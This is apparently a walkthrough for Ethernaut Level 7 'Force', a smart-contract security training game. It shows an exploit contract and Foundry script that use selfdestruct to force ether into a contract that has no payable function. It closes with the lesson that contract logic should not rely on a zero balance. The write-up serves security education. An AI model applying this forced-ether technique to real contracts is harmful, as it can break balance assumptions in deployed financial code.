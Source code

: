 # Level 7 - Force ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/7" %}

### Level Setup

{% hint style="info" %}
Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

&#x20; Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Force.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
{% endcode %}

### Exploit

The exploit uses `selfdestruct` to force funds to be sent to the contract.

1. Create an attack contract that contains funds (`1 wei`) which is then force sent to the target contract using `selfdestruct`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-7

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-7

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level7.sol" %}

{% code title="src/Level7.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                        LEVEL 7 - FORCE                       │
// ================================================================
contract Selfdestruct {
    function attack(address _targetContractAddress) public payable {
        selfdestruct(payable(_targetContractAddress));
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level7.s.sol" %}

{% code title="script/Level7.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Selfdestruct} from "../src/Level7.sol";

// ================================================================
// │                          LEVEL 7 - FORCE                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Selfdestruct targetContract = new Selfdestruct();
        targetContract.attack{value: 1 wei}(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
{% endhint %}

### Notes

{% embed url="https://eips.ethereum.org/EIPS/eip-6780" %}

